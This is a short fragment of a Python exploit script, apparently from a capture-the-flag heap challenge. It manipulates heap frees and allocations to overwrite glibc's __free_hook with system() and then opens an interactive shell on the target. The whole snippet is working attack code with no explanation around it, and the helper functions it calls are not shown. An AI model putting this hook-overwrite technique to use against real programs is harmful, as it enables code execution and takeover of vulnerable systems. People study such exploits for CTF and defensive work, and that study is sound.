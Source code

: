```python
x=finder('__malloc_hook',molloc_hook_addr)

free(7)
free(6)
add_note(6)
free(6)
add(21,0x48,p64(x.dump('__free_hook')))
add(22,0x48,p64(x.dump('__free_hook')))
add(23,0x48,p64(x.dump('system')))
free(8)
#debug()

p.interactive()

```



